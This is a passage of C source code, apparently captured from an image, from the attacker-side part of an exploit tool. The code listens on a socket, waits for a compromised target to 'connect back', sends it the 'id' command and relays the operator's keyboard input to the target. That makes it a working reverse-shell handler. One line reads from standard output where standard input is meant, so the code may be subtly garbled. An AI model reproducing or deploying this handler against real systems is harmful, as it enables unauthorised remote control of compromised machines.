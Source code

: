     if (listen(lsock, 1) < 0) {
        perror("** listen()");
        return(-1);
    }

    /* Timeout */
    signal(SIGALRM, signal_handler);
    alarm(5);

    /* Signal connect */
    kill(conn, SIGUSR1);
    waitpid(conn, NULL, 0);

    printf("[*] Awaiting connect back\n");
    if ( (csock = accept(lsock, (struct sockaddr *)&client,
            &addrlen)) < 0) {
        fprintf(stderr, "** Connection error\n");
        return(-1);
    }
    alarm(0);
    printf("[*] Target connected back\n\n");
    wait(NULL); /* Reap of last child */
    write(csock, "id\n", 3);

    if ( (nfd = csock +1) > FD_SETSIZE) {
        fprintf(stderr, "** SASH Error: FD_SETSIZE to small!\r\n");
        return(1);
    }

    FD_ZERO(&readset);
    FD_SET(csock, &readset);
    FD_SET(STDIN_FILENO, &readset);

    for (;;) {
        fd_set readtmp;
        memcpy(&readtmp, &readset, sizeof(readtmp));
        memset(inbuf, 0x00, sizeof(inbuf));

        if (select(nfd, &readtmp, NULL, NULL, NULL) < 0) {
            if (errno == EINTR)
                continue;
            perror("select()");
            return(1);
        }

        if (FD_ISSET(STDIN_FILENO, &readtmp)) {
            if ( (n = read(STDOUT_FILENO, inbuf, sizeof(inbuf))) < 0) {
                perror("read()");
                break;
            }
            if (n == 0) break;
            if (write(csock, inbuf, n) != n) {
                perror("write()");
                return(1);
            }
        }
